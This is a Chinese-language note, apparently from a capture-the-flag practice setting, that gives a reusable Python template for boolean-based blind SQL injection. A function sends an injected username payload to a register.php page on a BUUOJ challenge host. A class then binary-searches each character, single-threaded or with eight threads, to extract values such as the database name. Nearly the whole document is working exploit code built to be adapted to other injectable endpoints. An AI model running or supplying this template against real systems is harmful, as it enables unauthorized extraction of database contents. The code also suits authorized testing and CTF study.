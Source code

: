 # 介绍
	- SQL布尔注入的python脚本模板，根据具体环境实现一个函数`guessfunc`即可进行布尔注入
	- 支持多线程获取
- 模板如下：
- ```python
  from typing import Callable
  import threading
  import functools
  import requests
  
  url = "http://631cadab-127a-4952-b952-ed43b993795f.node4.buuoj.cn:81/"
  
  def guessfunc(target: str, pos: int, guess: int):
      """
      获取target的第pos个字符，判断其的ascii码是否大于guess
      """
      expression = f"ascii(mid({target},{pos},1))-{guess}-1"
      sql = f"admin' and ascii(substr(({expression}),1,1))-45 and '1"
      r = requests.get(url + "register.php", params={"username": sql, "password": "1"})
      if "error" in r.text:
          raise Exception()
      return "this username had been used" in r.text
  
  
  
  class ValueGuesser:
      def __init__(self, guessfunc, target, mute=False):
          self.guessfunc: Callable[[str, int, int], bool] = guessfunc
          self.target = target
          self.mute = mute
  
      def getvalue_char(self, pos):
          l, r = 0, 256
          while r - l > 1:
              mid = (l + r) // 2
              isgreater = self.guessfunc(self.target, pos, mid)
              if isgreater:
                  l = mid
                  if not self.mute:
                      print(".", end="", flush=True)
              else:
                  r = mid
                  if not self.mute:
                      print("-", end="", flush=True)
          if 32 <= r < 255:
              if not self.mute:
                  print(chr(r))
              return chr(r)
          else:
              return None
  
      def getvalue(self):
          ans = ""
          while True:
              c = self.getvalue_char(len(ans) + 1)
              if c is not None:
                  ans += c
              else:
                  break
          return ans if ans != "" else None
  
      def getvalue_multi(self):
          ans = {}
          threads = []
          def get_and_collect(pos):
              ans[pos] = self.getvalue_char(pos)
          p = 1
          while True:
              isctrl = not self.guessfunc(self.target, p, 31)
              if isctrl:
                  break
              t = threading.Thread(target = get_and_collect, args=(p, ))
              t.daemon=True
              t.start()
              threads.append(t)
              if len(threads) >= 8:
                  t = threads.pop()
                  t.join()
              p += 1
          for t in threads:
              t.join()
          assert all(i in ans for i in range(1, p)), "missing: " + repr([i not in ans for i in range(1, p)])
          return "".join(ans[i] for i in range(1, p))
  
  if __name__ == "__main__":
      # 示例：获取database()
      guesser = ValueGuesser(guessfunc, "database()")
      value = guesser.getvalue()
      # 网速慢也有多线程版本可用
      # value = guesser.getvalue_multi()
      print()
      print(value)
      print(repr(value))
  ```